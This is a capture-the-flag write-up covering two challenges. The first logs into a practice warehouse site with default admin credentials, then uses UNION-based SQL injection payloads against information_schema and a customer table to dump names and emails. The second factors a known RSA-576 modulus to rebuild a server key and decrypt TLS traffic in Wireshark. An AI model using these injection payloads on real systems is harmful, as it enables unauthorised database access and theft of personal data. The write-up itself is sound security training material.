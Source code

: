 # Web

## Stockos

Our first goal, given by Jérémy Nitel, was to search for creditentials in a broken warehouse's website named Stockos. The messages also indicates that Stockos has its admin password leaked multiple times and that it was a simple one.

When landing on the provided link (https://challengecybersec.fr/4e9033c6eacf38dc2a5df7a14526bec1/), we stumble upon a login page. Remembering the easy password, we tried `admin` as login and password. Bingo! It was right, we are now logged on as the admin. We cannot do much except change some personal infos about the admin and list the orders from the warehouse. Interestingly, there is a search function, this got us and idea to try for an SQL injection.

And so we did, by trying different character sets, we found out that `' AND 1=1 -- '` works. We then supposed that the request was written like this:
```sql
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='<our input text>%' ORDER BY section ASC
-- With our input text:
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 1=1 -- '%' ORDER BY section ASC;
```
Now, with a door to enter, we can use the keyword `UNION` to append new information on the tables. One very interesting table name to look for is `information_schema.tables`. This is a table that lists all tables.
```sql
-- <' AND 0=1 UNION SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables -- '%' ORDER BY section ASC
```
With every tables listed, we can check the `customer` table. We still need the column names and the table `information_schema.columns` can help us.
```sql
-- <' AND 0=1 UNION SELECT column_name, 2, 3, 4, 5 FROM information_schema.columns WHERE table_name='customer' -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT column_name, 2, 3, 4, 5 FROM information_schema.columns WHERE table_name='customer' -- '%' ORDER BY section ASC
```
The request above will print the name of every column of `customer`. `name` and `email` are very useful.
```sql
-- <' AND 0=1 UNION SELECT name, email, 3, 4, 5 FROM customer -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT name, email, 3, 4, 5 FROM customer -- '%' ORDER BY section ASC
```
This last SQL request will print the list of each customer's name and email. And there lays the email we are looking for: `agent.malice@secret.evil.gov.ev`. We can now go try the rest of the challenge.

*__Note__: The end of the SQL request can be leaked by creating a malformed request like `'`. You can also find that this is a MySQL server. The numbers `1` to `5` in SQL requests are special name for dummy columns.*

## TLS

The next challenge is about decypting a conversation between a client and a server. The data is stored in [capture.pcap](./capture.pcap). One can see that the conversation is done via TLS. The issue is that TLS data can be encrypted (and it is the case here). The conversation is done via `TLS_RSA_WITH_AES_128_CBC_SHA` which is crackable if someone can crack the RSA key of the server. The `PublicKey` is available under the `Certificate` exchange and one can found the following number for `n`:
```
(hex) 0x00c2cbb24fdbf923b61268e3f11a3896de4574b3ba58730cbd652938864e2223eeeb704a17cfd08d16b46891a61474759939c6e49aafe7f2595548c74c1d7fb8d24cd15cb23b4cd0a3
(dec) 188198812920607963838697239461650439807163563379417382700763356422988859715234665485319060606504743045317388011303396716199692321205734031879550656996221305168759307650257059
```
While browsing for solutions, we found that this peculiar number was a factorisation challenge called [RSA-576](https://en.wikipedia.org/wiki/RSA_numbers#RSA-576) that yields these results:
```
188198812920607963838697239461650439807163563379417382700763356422988859715234665485319060606504743045317388011303396716199692321205734031879550656996221305168759307650257059
=
398075086424064937397125500550386491199064362342526708406385189575946388957261768583317
x
472772146107435302536223071973048224632914695302097116459852171130520711256363590397527
```
The python script [rsa_gen.py](./rsa_gen.py) (Requires [rsa](https://pypi.org/project/rsa/)) will generate a private key file that will be used by Wireshark to decrypt the [TLS](https://wiki.wireshark.org/TLS?action=show&redirect=SSL).
```
$ python rsa_gen.py private.pem
```
When decrypting the TLS with this private key, we can find that the user was accessing the page `/7a144cdc500b28e80cf760d60aca2ed3` but resulted in a 404. And this is the link to the Coros CTF (https://ctf.challengecybersec.fr/7a144cdc500b28e80cf760d60aca2ed3)